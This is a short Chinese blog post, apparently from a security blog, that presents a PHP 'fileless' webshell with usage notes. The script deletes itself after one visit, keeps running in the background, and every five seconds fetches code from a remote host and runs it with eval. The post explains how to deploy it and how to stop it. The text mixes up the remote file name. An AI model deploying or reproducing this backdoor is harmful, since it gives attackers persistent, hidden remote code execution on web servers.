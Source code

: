 ```yaml
---
layout: post
category: webshell
tags: webshell php
title1: php无文件后门
keywords: php无文件后门
description: 将 webshel.php 传到服务器之后访问一次他会自删除。但，依然会在后台执行 webshell.txt 中的代码。
---
```


### webshell.php

    <?php
    unlink($_SERVER['SCRIPT_FILENAME']);
    ignore_user_abort(true);
    set_time_limit(0);

    $remote_file = 'http://xsser.me/webshel.txt';
    while($code = file_get_contents($remote_file)){
    @eval($code);
    sleep(5);
    };
    ?>
  
### webshell.txt

    file_put_contents('1.txt','hello world '.time());

### 使用方式

将 webshel.php 传到服务器之后访问一次他会自删除。但，依然会在后台执行 eval.txt 中的代码

### 停止执行

删除或清空 webshel.txt。

### 缺点

服务器或WEB容器一重启后门就没了。